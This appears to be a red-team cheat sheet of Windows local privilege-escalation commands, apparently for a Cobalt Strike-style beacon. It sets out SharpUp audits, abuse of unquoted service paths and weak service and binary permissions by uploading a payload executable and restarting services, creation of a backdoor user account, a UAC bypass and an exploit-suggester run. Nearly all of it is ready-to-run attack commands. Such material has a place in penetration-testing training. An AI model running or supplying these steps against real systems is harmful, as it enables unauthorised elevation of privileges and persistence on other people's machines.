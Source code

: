 ### SharpUp
https://github.com/GhostPack/SharpUp
```
execute-assembly /root/SharpUp.exe audit
execute-assembly /root/SharpUp.exe audit UnquotedServicePath
execute-assembly /root/SharpUp.exe audit ModifiableServices
execute-assembly /root/SharpUp.exe audit ModifiableServiceBinaries
```

### Unquoted Service Paths
```
run wmic service get name,pathname
run wmic service get name,displayname,startmode,pathname | findstr /i /v "c:\windows" | findstr /i "c:"
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
upload C:\Payloads\tcp-local_x64.svc.exe "C:\Program Files\Vulnerable Services\Service.exe"
run sc stop VulnService1
run sc start VulnService1
run sc query VulnService1
```

### Weak Service Permissions
https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
run sc qc VulnService2
upload C:\Payloads\tcp-local_x64.svc.exe C:\Temp\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
```

### Weak Service Binary Permissions
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
run wmic service get pathname | findstr /i /v "c:\windows" | findstr /i "c:" | % { $_.split('"')[1] } | % { get-acl $_ } | fl -Property path,AccessToString | findstr /i "path modify write fullcontrol"
run sc stop VulnService3
upload C:\Payloads\tcp-local_x64.svc.exe "C:\Program Files\Vulnerable Services\Service 3.exe"
run sc start VulnService3
```

### UAC Bypasses
```
run net user hacker Passw0rd! /add
run whoami /groups
elevate uac-schtasks tcp-local
```

### Local Exploit Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```
systeminfo > system.info
pip2 install xlrd==1.1.0
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -d 2023-01-21-mssb.xls -i system.info
```
